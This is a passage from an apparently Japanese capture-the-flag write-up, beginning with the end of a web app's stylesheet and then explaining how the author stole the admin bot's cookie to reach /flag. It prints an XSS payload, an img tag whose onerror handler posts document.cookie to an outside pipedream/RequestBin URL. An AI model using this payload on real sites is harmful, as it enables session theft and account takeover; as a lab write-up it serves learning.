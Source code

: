 ```
        }

        .content {
          padding: 2rem;
          width: 90%;
          max-width: 900px;
          margin: auto;
        }

        input:not([type='submit']) {
          width: 100%;
          padding: 8px;
          margin: 8px 0;
        }

        textarea {
          width: 100%;
          padding: 8px;
          margin: 8px 0;
          resize: vertical;
          font-family: monospace;
        }

        input[type='submit'] {
          margin-bottom: 16px;
        }


    `)
})

app.listen(3000)
```

ソースコードから`/flag`にアクセスした際に、cookieに正しい値を持っていればflagが表示されることがわかる。

したがって、AdminBotからアクセスさせた際にcookie値を送信させるようにするページを作成する。  
imgタグで存在しないsrcを指定してonerror属性にcookie値を送る処理を書く。  
送信先はRequestBinを使う。

```
<img src="/hoge" onerror="const headers = new Headers(); headers.append('Content-Type', 'application/json'); const body={'cookie': document.cookie};const options = { method: 'POST', headers, mode: 'cors', body: JSON.stringify(body)}; fetch('https://eo5qevb8wsh0csx.m.pipedream.net', options);">
```

生成したページへAdminBotでアクセスさせるとcookie値がとれた。
